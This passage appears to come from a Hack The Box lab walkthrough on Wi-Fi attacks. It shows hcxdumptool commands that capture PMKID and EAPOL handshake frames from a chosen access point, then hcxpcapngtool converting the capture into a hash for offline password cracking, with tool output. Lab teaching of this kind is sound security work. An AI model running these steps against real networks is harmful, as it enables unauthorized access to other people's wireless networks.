 ```shell
hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=D8:D6:3D:EB:29:D5 --filtermode=2 -o HTBStudent.pcap
```

```
root@WiFiIntro:/home/wifi# hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=D8:D6:3D:EB:29:D5 --filtermode=2 -o HTBStudent.pcap

initialization of hcxdumptool 6.2.5...
warning possible interfere: NetworkManager is running with pid 225

warning possible interfere: wpa_supplicant is running with pid 206

interface is already in monitor mode, skipping ioctl(SIOCSIWMODE) and ioctl(SIOCSIFFLAGS) system calls

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: wlan0mon

<SNIP>

11:47:16 2417/2   4ae787e8b085 d8d63deb29d5 HTB [PMKID:8f71363949db31937750068cd38a7382 KDV:2]
11:47:16 2417/2   4ae787e8b085 d8d63deb29d5 HTB [EAPOL:M1M2 EAPOLTIME:6389 RC:1 KDV:2]
11:47:16 2417/2   4ae787e8b085 d8d63deb29d5 HTB [EAPOL:M2M3 EAPOLTIME:154 RC:2 KDV:2]
11:47:16 2417/2   4ae787e8b085 d8d63deb29d5 HTB [EAPOL:M3M4ZEROED EAPOLTIME:79 RC:2 KDV:2]
```

Subsequently, students will stop the capture with the key combination `Ctrl + C`. They will use `hcxpcapngtool` to convert the packet capture (`HTBStudent.pcap`) to a hash:

Code: shell

```shell
hcxpcapngtool -o hash HTBStudent.pcap
```

```
root@WiFiIntro:/home/wifi# hcxpcapngtool -o hash HTBStudent.pcap

hcxpcapngtool 6.2.5 reading from HTBStudent.pcap...

summary capture file
--------------------
file name................................: HTBStudent.pcap
version (pcapng).........................: 1.0
operating system.........................: Linux 5.4.0-88-generic
application..............................: hcxdumptool 6.2.5
interface name...........................: wlan0mon

<SNIP>

session summary
---------------
processed pcapng files................: 1
```
